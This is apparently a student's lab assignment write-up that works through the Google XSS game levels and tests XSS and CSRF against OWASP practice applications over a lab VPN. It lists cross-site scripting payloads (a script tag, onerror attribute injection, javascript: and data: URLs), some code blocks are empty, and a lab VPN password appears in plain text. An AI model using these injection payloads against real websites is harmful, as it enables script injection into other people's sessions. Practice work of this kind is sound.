

# Assignment lab 3

## 1. Solve the 6 exercises at the following link: https://xss-game.appspot.com/level1
### 1/6
- insert into the input search field:
``` 
<script>allert()</script>
```

### 2/6
- insert into the input post field:
``` 

```

### 3/6
- insert into the url input:
``` 
https://xss-game.appspot.com/level3/frame#1' onerror='alert("xss")'>
```

### 4/6
- insert into the text field:
``` 
timer=');alert('xss
```

### 5/6
- insert into the email field:
``` 
https://xss-game.appspot.com/level5/frame/signup?next=javascript%3Aalert%28%27xss%27%29
```

### 6/6
- insert into the url:
``` 
https://xss-game.appspot.com/level6/frame#data:text/plain,alert('xss')
```

### Steps for accessing projects for the following requirements
- open VM (Kali Linux)
- open terminal in `/Desktop/c22`
- run `sudo openvpn hacknet.ovpn`
- introduce password received on email (`H8kZ8j`)
- access link `https://10.200.10.1/hnet` in browser
- for this assignment I've accessed the server with ip address `10.200.122.18`
- it should look something like this

## 2. Access the "OWASP Mandiant Struts Forms" application and solve the 4 exercises.
The goal of these exercises is to exploit vulnerabilities such as XSS and CSRF, over
various forms of user input validation.
### 1. mandiant-struts-form-vulnerable - Version of the form vulnerable to Reflected Cross Site Scripting
- insert into field:
``` 

```

### 2. mandiant-struts-form-incomplete-blacklist - Version of the form that uses incomplete black list input validation to prevent `<script>` tags, but is vulnerable to more sophisticated types of Reflected Cross Site Scripting
- insert into field:
``` 

```

### 3. mandiant-struts-validatorform - Version of the form that uses the Struts ValidatorForm to implement a white list

DOM structure of the text field element before introducing something:
``` 
<input type="text" name="name" value="">
```
And after introducing something that is not accepted:
``` 
<input type="text" name="name" value="<something>">
```
The url became:
``` 
http://10.200.122.18/mandiant-struts-validatorform/submitname.do?name=%3Csomething%3E&submit=Submit
```
``` 
<input type="text" name="name" value="</something>">
```
The url became:
``` 
http://10.200.122.18/mandiant-struts-validatorform/submitname.do?name=%3C%2Fsomething%3E&submit=Submit
```
Trying to introduce:
``` ="?;:'<>/ ```
URL:
``` %3D"%3F%3B%3A' ```
``` '<>/ ``` -> ``` '<>%2F ```

Trying to introduce something like:
``` "> ```
``` value" onerror%='alert()' data-test-id="test ```


input   -> url        -> dom

 &quot; -> %26quot%3B -> &quot; (string)

    ?   ->    &quot;  -> "

"       ->  "         -> &quot; (encoded ")

Main issue: the `"` character is converted into `&quot;` when accessing the DOM resulting element. In this case, the injection is impossible. There are used functions for sanitizing the input from the form.

### 4. mandiant-struts-validatorform-with-javascript - Version of the form that uses the Struts ValidatorForm to implement a white list on the server and on the client in JavaScript

We will try the same approach. <br>
First, I wil look at the dom element returned.


``` 
"> 
```
When introducing this, the browser returns an allert popup with the message `Name is invalid`

``` 
value" onerror%='alert()' data-test-id="test
```
Same with this input introduced. <br>
The difference between this exercise ant the previous one is that the server does not even return the input into the DOM. If the name is not valid, the field is not filled. <br>
Not even numbers are allowed. Only characters from the alphabet.

## 3. Access the "OWASP CSRFGuard Test " and solve the proposed exercises.

### 1. OWASP CSRFGuard Test Application (Protected) - Version of the CSRFGuard Test Application with the CSRFGuard turned on. Should not contain any vulnerabilities.

Navigating through the available pages from this exercise, I've noticed that the `Help` page has the following message:
```plaintext
This is a simple help page that should not be protected.
```
The url of the page looks like this:
``` 
http://10.200.122.18/CSRFGuardTestApp/help.jsp?OWASP_CSRFTOKEN=LUC7-MRGC-30V0-5TSV-5D4G-D2WO-G67L-579Y
```
All the available pages have the same token in the url.<br>
The `Tags` section has the following content:


Here is the same token that is in the url of the `Help` page. <br>
Also, the links from the `Tags` page contain the token:


(And also the images :) )

More, the `Error` page, when it's accessed, give the following message in page:
```plaintext 
CSRF Attack Detected.
```

I will try to have the same approach. Into the `Hello World` text input:
``` 
"> 
```



When I'm changing the token prefilled in the `Tags` page with the same content, I am redirected to the error page :) 

### 2. OWASP CSRFGuard Test Application (Vulnerable) - Version of the CSRFGuard Test Application with the CSRFGuard turned off.

Same navigation as the previous exercise. <br>
Difference: the token can not be found anynore in the exercise.
Same approach:
``` 
"> 
value" onerror%='alert()' data-test-id="test
```

For this input, the `Tags` page simply reloads itself. <br>
But if this kind of input is inserted into `Heelo World` page textfield, the result is the same as the previous exercise.


## 4. Go to Simple ASP.NET Forms application and solve exercises.

### 1. Simple ASP.NET Page (protected by ASP.NET Request Validation)

``` 
"> 
value" onerror%='alert()' data-test-id="test
```

For the first input, the page throws an error with status code 500:


The second input make the server to return it as a simple string


The server does not take the value form what the user insert (at least not directly from the input field)

### 2. Simple ASP.NET Page with Reflected Cross Site Scripting

``` 
"> 
value" onerror%='alert()' data-test-id="test
```
Only for the first input:

